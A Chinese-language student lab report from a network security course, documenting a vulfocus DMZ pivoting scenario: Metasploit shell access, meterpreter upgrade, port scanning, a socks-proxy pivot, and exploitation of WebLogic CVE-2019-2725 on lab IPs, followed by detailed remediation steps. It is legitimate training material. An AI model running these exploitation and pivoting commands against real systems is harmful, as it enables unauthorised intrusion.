# 网络安全实践

## 实验环境
kali2024.4
## 实验内容

## 实验步骤

### 基础运行环境准备

### 漏洞攻防环境搭建

启动vulfocus


### 场景化漏洞攻防（以 vulfocus 提供的【跨网段渗透(常见的dmz)】为例）

1. 场景安装与配置

* 【场景管理】→【环境编排管理】，根据课堂内容创建场景拓扑并保存

* 进入【场景】，启动指定场景

启动场景后可以看到相应的


2. 捕获指定容器的上下行流量，准备抓包


3. 攻破靶标1

* metasploit 基础配置

```
# 更新 metasploit
sudo apt install -y metasploit-framework
```


初始化metasploit本地工作数据库








get shell



进入会话1并尝试bash指令


4. 建立立足点并发现靶标2-4

* 将cmdshell升级为metrpretershell
```sessions -u 1```

进入会话2
```sessions -i 2```


* 进入会话2查看网卡列表

```
ipconfig
arp
route
```


* 查看路由表和arp表


* 搜索可用的portscan
```search portscan```


use选择的portscan并查看可配置参数列表

配置portscan参数

tcp扫描100%

查看发现新的hosts和services

搜索socks_proxy并use

在后台开启socks—proxy


* 新开一个cmd窗口

查看1080端口服务开放情况


* 编辑/etc/proxychains4.conf

```
sudo sed -i.bak -r "s/socks4\s+127.0.0.1\s+9050/socks5 127.0.0.1 1080/g" /etc/proxychains4.conf
```

在攻击者主机新的窗口nmap扫描


```
# 重新进入 shell 会话
sessions -i 1
curl http://192.170.84.2:7001 -vv
curl http://192.170.84.3:7001 -vv
curl http://192.170.84.4:7001 -vv
```


5. 攻破靶标2-4

```
# search exploit
search cve-2019-2725

# getshell
use 0
show options
set RHOSTS 192.170.84.2
# 分别设置不同的靶机 IP 
set lhost 192.168.56.214
# 分别 run
run -j
```


6. 攻破最终靶标




7. 拷贝抓包文件，进行分析



#### 漏洞修复

weblogic-CVE-2019-2725漏洞修复方案

* Weblogic-cve-2019-2725的漏洞源于在反序列化处理输入信息的过程中存在缺陷，未经授权的攻击者可以发送精心构造的恶意 HTTP 请求，利用该漏洞获取服务器权限，实现远程代码执行。

1. 禁⽤bea_wls9_async_response组件；

2. 删除wls9_async_response的war包并重启 ；

3. 禁⽌访问 /_async/* 路径

4. 升级本地JDK版本

* 查阅官方文档，可以看到官方发布的补丁包

[cve-2019-2725补丁](https://www.oracle.com/technetwork/security-advisory/alert-cve-2019-2725-5466295.html?from=timeline) 

* 一、漏洞背景与影响

CVE-2019-2725是Oracle WebLogic Server中的一个高危漏洞，属于反序列化远程命令执行漏洞。该漏洞影响WebLogic的`wls9_async`和`wls-wsat`组件，攻击者可以通过发送精心构造的HTTP请求，在未经授权的情况下远程执行命令。这可能导致攻击者完全控制服务器，植入恶意软件，甚至进行横向渗透。

* 二、检测漏洞是否存在
在修复漏洞之前，需要确认目标WebLogic服务是否存在漏洞。以下是一些检测方法：

1. **检查受影响的组件是否存在**：
   - 访问以下路径，如果返回页面，则表明该组件存在：
     - `/_async/AsyncResponseService`
     - `/_async/AsyncResponseServiceSoap12`
     - `/wls-wsat/CoordinatorPortType`
   - 如果返回403错误，也可能表明组件存在但被限制访问。
2. **检查返回结果**：
   - 如果访问上述路径返回页面内容，而不是错误信息，说明漏洞可能存在。


* 三、修复漏洞的具体步骤

修复该漏洞的核心方法是禁用或删除受影响的组件，并重启WebLogic服务。以下是具体步骤：

1. **定位受影响的文件**

根据WebLogic版本，受影响的文件和路径如下：
 **10.3.x版本**：
路径：`\Middleware\wlserver_10.3\server\lib\`
文件：`wls9_async_response.war` 和 `wls-wsat.war`
相关临时文件夹：`%DOMAIN_HOME%\servers\AdminServer\tmp\_WL_internal\` 和 `%DOMAIN_HOME%\servers\AdminServer\tmp\.internal\`
**12.1.3版本**：
路径：`\Middleware\Oracle_Home\oracle_common\modules\`
文件：`wls9_async_response.war` 和 `wls-wsat.war`


2. **删除受影响的文件**

删除`wls9_async_response.war`和`wls-wsat.war`文件及相关文件夹。
注意：删除文件后，确保备份重要数据，以防误删。


3. **重启WebLogic服务**

删除文件后，重启WebLogic服务以使更改生效。
在Docker环境中，可以通过以下命令重启服务：

```bash
 docker restart <容器名称>
```


4. **验证修复效果**

- 再次访问检测路径（如`/_async/AsyncResponseService`），如果返回404或403错误，则说明修复成功。


和修复前对比


* 四、注意事项与建议

1. **备份重要数据**：
   - 在执行删除操作前，请确保对重要数据进行备份，以防误操作导致数据丢失。
2. **使用官方补丁**：
   - 如果无法删除受影响的组件，可以考虑应用Oracle官方发布的补丁
3. **限制访问权限**：
   - 在修复漏洞后，建议限制对WebLogic服务的访问权限，仅允许授权IP访问。
4. **监控异常行为**：
   - 使用日志监控工具（如ELK Stack）监控WebLogic服务器的日志，及时发现异常行为。

## 遇到的问题

1. 无法登陆，显示服务器内部错误


* 解决方法：



2. 无法启动场景，一直有一个容器无法启动，并且无法getflag


解决方法：发现是docker.io的问题，卸载docker.io安装docker-ce后场景能够顺利运行


## 参考资料

[WebLogic漏洞复现（附带修复方法）_weblogic漏洞修复](https://blog.csdn.net/Python84310366/article/details/148626907)
[网络安全攻防实践](https://github.com/Xuyan-cmd/Network-security-attack-and-defense-practice/blob/main/README.md)
[Weblogic反序列化远程命令执行漏洞 CVE-2019-2725 详解 - CSDN博客](https://blog.csdn.net/m0_67544876/article/details/147928201)
[WebLogic反序列化漏洞(CVE-2019-2725补丁绕过) - 博客园](https://www.cnblogs.com/paperpen/p/11043182.html)